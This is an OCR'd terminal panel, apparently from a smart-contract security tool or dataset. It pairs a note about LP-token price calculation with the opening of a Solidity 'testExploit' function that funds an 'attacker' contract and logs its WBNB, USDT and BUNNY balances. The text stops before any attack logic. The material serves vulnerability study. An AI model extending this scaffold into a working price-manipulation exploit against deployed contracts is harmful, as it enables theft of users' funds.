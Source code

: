 ╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public {                                                                                                                                                                                                                  │
│         payable(WBNB).call{value: 1e18}("");                                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Initial WBNB balance of attacker:",                                                                                                                                                                                                     │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Initial USDT balance of attacker:",                                                                                                                                                                                                     │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Initial BUNNY balance of attacker:",                                                                                                                                                                                                    │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                  │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                 │